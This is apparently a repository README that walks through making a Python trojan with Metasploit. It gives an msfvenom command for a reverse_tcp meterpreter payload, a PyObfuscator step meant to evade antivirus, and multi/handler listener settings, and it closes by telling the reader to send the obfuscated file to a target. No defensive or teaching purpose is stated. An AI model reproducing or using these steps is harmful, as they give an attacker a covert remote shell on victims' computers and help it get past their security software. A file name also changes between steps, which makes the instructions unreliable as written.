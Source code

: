 # Create python trojan with Metasploit and bypass all antiviruses (READ THIS AS CODE)

1 : install python and metasploit or using kali linux

2 : Next install requreiments

3 : create payload and obfuscation it 

4 : build up listener with metasploit and send payload obfuscation to target 

# Requreiments 

pip install PyObfuscator

Optional : if you want you can change it to exe file after obfuscation it for doing this read it (https://github.com/CharonDefalt/Bad-usb)

# Create payload

msfvenom -p python/meterpreter/reverse_tcp LHOST=YOURIP LPORT=YOURPORT -o payload.py

After that lets obfuscation it with below command :

PyObfuscator payload_5050.py

# Build listener

use multi/handler
set PAYLOAD python/meterpreter/reverse_tcp
set LHOST YOURIP
set lport YOURPORT
run

# Final Part
now send this file ( payload_obfu.py ) to target


